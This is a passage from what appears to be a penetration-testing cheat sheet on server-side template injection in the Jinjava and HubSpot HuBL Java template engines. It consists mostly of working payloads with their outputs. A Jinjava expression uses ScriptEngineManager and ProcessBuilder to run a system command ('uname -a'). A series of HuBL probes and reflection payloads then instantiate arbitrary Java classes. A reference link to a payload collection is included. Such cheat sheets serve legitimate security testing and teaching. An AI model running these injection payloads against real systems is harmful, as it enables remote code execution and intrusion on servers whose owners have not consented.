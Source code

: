 {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

**More information**

-   ​[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava)​
    

## 

Hubspot - HuBL (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#hubspot-hubl-java)

-   `{% %}` statement delimiters
    

-   `{{ }}` expression delimiters
    

-   `{# #}` comment delimiters
    

-   `{{ request }}` - com.hubspot.content.hubl.context.TemplateContextRequest@23548206
    

-   `{{'a'.toUpperCase()}}` - "A"
    

-   `{{'a'.concat('b')}}` - "ab"
    

-   `{{'a'.getClass()}}` - java.lang.String
    

-   `{{request.getClass()}}` - class com.hubspot.content.hubl.context.TemplateContextRequest
    

-   `{{request.getClass().getDeclaredMethods()[0]}}` - public boolean com.hubspot.content.hubl.context.TemplateContextRequest.isDebug()
    

Search for "com.hubspot.content.hubl.context.TemplateContextRequest" and discovered the [Jinjava project on Github](https://github.com/HubSpot/jinjava/).

{{request.isDebug()}}

//output: False

​

//Using string 'a' to get an instance of class sun.misc.Launcher

{{'a'.getClass().forName('sun.misc.Launcher').newInstance()}}

//output: sun.misc.Launcher@715537d4

​

//It is also possible to get a new object of the Jinjava class

{{'a'.getClass().forName('com.hubspot.jinjava.JinjavaConfig').newInstance()}}

//output: com.hubspot.jinjava.JinjavaConfig@78a56797
